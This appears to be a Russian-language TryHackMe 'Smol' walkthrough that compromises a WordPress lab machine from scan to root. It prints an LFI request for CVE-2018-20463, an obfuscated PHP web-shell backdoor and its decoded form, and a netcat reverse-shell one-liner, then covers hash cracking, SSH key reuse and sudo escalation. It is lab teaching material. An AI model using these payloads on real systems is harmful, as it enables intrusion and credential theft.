# TryHackMe - Smol

## 1. Reconnaissance (Разведка)

Первым шагом было сканирование портов с помощью **RustScan** для определения периметра атаки.
```bash
rustscan -a 10.65.163.96 -- -sV
```
**Результат:** Обнаружены открытые порты **22 (SSH)** и **80 (HTTP)**.




На порту 80 запущен веб-сервер Apache 2.4.41. 
Был запущен перебор файлов и директорий черезе **FFUF**:


Исходя из найденных wp-admin, wp-content, wp-includes и т.д можно сделать вывод что тут используется CMS WordPress.

Было запущено сканирование WordPress с помощью **WPScan**:
```bash
wpscan -e u,ap,t --url http://www.smol.thm
```
**Результаты сканирования:**
*   Обнаружен устаревший плагин `jsmol2wp` версии 1.07 (не обновлялся 8 лет).
*   Найдены пользователи: `Jose Mario Llado Marti`, `wordpress user`, `admin`, `think`, `wp`, `diego`, `gege`, `xavi`.




---

## 2. Initial Access (Первоначальный доступ)

Поиск уязвимостей для плагина `jsmol2wp` привел к **CVE-2018-20463**, которая позволяет читать произвольные файлы (LFI) на сервере.



Был отправлен запрос на чтение конфигурационного файла WordPress:
```http
GET /wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
В ответе сервера успешно отобразилось содержимое `wp-config.php`, где были найдены учетные данные базы данных:
*   **DB_USER:** `wpuser`
*   **DB_PASSWORD:** `kbLSF2...`



Используя найденные учетные данные и список пользователей найденный до этого можно предположить, что wordpress user это wpuser, после можно успешно авторизоваться в панели администратора WordPress (`/wp-login.php`).


---

## 3. Foothold (Закрепление и RCE)

В панели администратора была обнаружена приватная страница **"Webmaster Tasks!!"**, которая содержала важную информацию:
> `1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.`




Использовав **CVE-2018-20463** был просмотрен исходный код плагина `Hello Dolly` и обнаруженна обфусцированная строка:
```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```



Декодировав Base64 и расшифровав восьмеричные/шестнадцатеричные последовательности можно понять, что это веб-шелл:
```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```



Эксплуатация бэкдора позволяет выполнять команды от имени `www-data`.



Далее был инициирован reverse shell:
```bash
?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [local_ip] 444 >/tmp/f
```




---

## 4. Post-Exploitation (Пост-эксплуатация)

Имея доступ к системе, подключаемся к базе данных MySQL, используя ранее найденные учетные данные, и получим хэши паролей пользователей WordPress:
```bash
mysql -u wpuser -p
mysql> use wordpress;
mysql> SELECT * FROM wp_users;
```




---

## 5. Privilege Escalation

**Шаг 1: Компрометация пользователя diego**
Попытаясь подобрать каждый из хэшей с помощью **Hashcat** и словаря `rockyou.txt` - удалось получить пароль пользователя `diego`. Пароль: `sandiego...`.



Переключившись на пользователя `diego`, был получен первый флаг `user.txt`.




**Шаг 2: Перемещение на пользователя think**
Проведя разведку домашних директорий был обнаружен интересный архив у gege (но недоступный пользователю `diego`), а также, что в папке пользователя `think` доступна для чтения директория `.ssh`, в которой лежал приватный ключ `id_rsa`.




Скопировав ключ, подключились по SSH:
```bash
ssh -i id_rsa think@smol.thm
```



**Шаг 3: Доступ к бэкапу и компрометация gege**
Проверив группы пользователя `think`, обнаружено, что он также как и `gege` состоит в группах `dev` и `internal`. Это позволяет сделать предположение, что можно сменить без пароля пользователя на `gege`. Теперь имеем доступ к тому самому файлу `wordpress.old.zip`, но распаковать просто так не удается - он под паролем. Отправим его на свою систему для подбора пароля и преобразим в хэш с помощью `zip2john`.





Подберем пароль с помощью **John the Ripper**. Пароль от архива: `hero...`. 
Внутри архива лежал `wp-config.php`, в котором были новые учетные данные:
*   **DB_USER:** `xavi`
*   **DB_PASSWORD:** `P@ssw...`




---

## 6. Root

Используя найденный пароль, переключимся на пользователя `xavi`:
```bash
su xavi
```




Проверим его права sudo:
```bash
sudo -l
```
Оказалось, что пользователь `xavi` может выполнять **любые команды** от имени root: `(ALL : ALL) ALL`. 
Это позволяет мгновенно получить root-доступ и прочитать финальный флаг:
```bash
sudo su
cd /root
cat root.txt
```
